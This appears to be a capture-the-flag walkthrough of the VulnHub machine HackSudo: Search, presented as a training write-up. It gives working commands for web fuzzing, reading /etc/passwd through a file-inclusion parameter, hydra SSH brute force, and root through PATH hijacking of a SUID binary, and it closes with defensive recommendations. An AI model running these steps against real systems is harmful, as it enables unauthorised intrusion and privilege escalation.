

# 🔐Vulnhub-Hacksudo-Search-Walkthrough
🎯 This walkthrough demonstrates a structured approach covering enumeration, exploitation, and privilege escalation.

## 📌 Overview
- **Machine:** HackSudo: Search
- **Platform:** VulnHub
- **Objective:** Gain root access

This machine demonstrates:
- Web enumeration
- Credential harvesting
- SSH compromise
- Linux privilege escalation through PATH hijacking

The walkthrough follows a structured penetration testing methodology from reconnaissance to root compromise.

---

## 🧠 Methodology

---

## 🌐Network Discovery
First we will use **netdiscover** tool to find the IP address of our target machine.

**COMMAND:** sudo netdiscover -r <IP_RANGE>

**Target IP:** 192.168.0.144

**Why was this done:**
- Discover active host on local network
- Identify the vulnerable VM before enumeration

---

## 🔎 Port Scanning
Now we will run nmap scan to find open port and services on our target IP.

**COMMAND:** sudo nmap -T4 -sC -sV -p- <TARGET_IP>

<mg width="777" height="351" alt="image" src="https://github.com/user-attachments/assets/133912a4-37df-49ac-bf17-20c88def3bec" />

| Port | Service | Insight              |
| ---- | ------- | -------------------- |
| 22   | SSH     | Remote login service |
| 80   | HTTP    | Web application      |

---

## 🌍Web Enumeration
Lets access the webpage of our target application.

I found out that it is hacksudo search engine which is of no use.

Now I will run do directory bruteforcing to check if there are any hidden files/directories.

**COMMAND:**   gobuster dir -u http://<TARGET_IP> \-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

**Findings:** search1.php , robots.txt , /.env

**Why was this important:** 

Hidden files and endpoints frequently expose:
- Development functionality
- Credentials
- Sensitive information

---

## 🔎Web Application Analysis
Visiting search1.php revealed:
- Home
- About
- Contact section

After exploring and inspecting page source we can do fuzzing for more information.

**COMMAND:** wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.144/search1.php?FUZZ=contact.php --hl 137

**Findings:** me keyword so we will try it with /etc/passwd

**Usernames:** 
- monali
- john
- hacksudo
- search

I also found /.env file which contain username and password.

**Password:** MyD4dSuperH3r0!

---

## 🔐SSH Credential Attack
Now with help of hydra I will try to login with every username which I got.

**COMMAND:** hydra -l <USERNAME> -p <PASSWORD> ssh:192.168.0.144

**Correct Username:** hacksudo

---

## 🔓SSH Access
Successfully authenticated with SSH using credentials.

**COMMAND:**ssh hacksudo@<TARGET_IP>

---

## 🧑‍💻Previlige Escalation Enumeration
SUID Enumeration

**COMMAND:** find / -perm -u=s -type f 2>/dev/null

**Findings:** /home/hacksudo/search/tools/searchinstall

**Why this mattered:**

SUID binaries execute with elevated privileges and are commonly abused for privilege escalation.

---

## 🔬Binary Analysis
Examined associated source code:

**COMMAND:** cat searchinstall.c

**Observation:** Binary executed without specifying with full path.

**Vulnerability:**
This creates a PATH Hijacking opportunity.
If attackers control the PATH variable, they can execute malicious binaries with elevated privileges.

---

## 💣PATH Hijacking
**Create malicious binary**

**COMMAND:**
- cp /bin/bash install
- chmod 777 install
- ls -la
- echo $PATH
- export PATH=/home/hacksudo:$PATH
- echo $PATH

And then execute ./searchinstall file.

Root Shell obtained successfully.

---

## 👑Root Access
Verified Previliges

**COMMAND:** id

**OUTPUT:** uid=0(root) gid=0(root)

**Retrieved Root Flag:** cd /root >  cat root.txt

Root compromise successfully.

---

## ⚔️ MITRE ATT&CK Mapping
| Phase                | Technique                         |
| -------------------- | --------------------------------- |
| Reconnaissance       | Active Scanning                   |
| Discovery            | File and Directory Discovery      |
| Credential Access    | Brute Force                       |
| Initial Access       | Valid Accounts                    |
| Execution            | Command and Scripting Interpreter |
| Privilege Escalation | Hijack Execution Flow             |

---

## 🧠 Key Learnings
-  Web enumeration often reveals hidden sensitive files
-  Weak credentials remain a major attack vector
-  SUID binaries should always be analyzed carefully
-  PATH hijacking can lead to complete system compromise

---

## 🛡️ Security Recommendations
- Remove sensitive files from public directories
- Enforce strong password policies
- Use absolute paths in privileged binaries
- Audit SUID binaries regularly

---

## 🛠️ Tools Used
- Netdiscover
- Nmap
- Gobuster
- Hydra
- OpenSSH

---

## 👨‍💻 Author
**Jeet Bandhara** 
- https://github.com/Jeet-Bandhara?utm_source=chatgpt.com
- https://medium.com/@bndjeet11

---
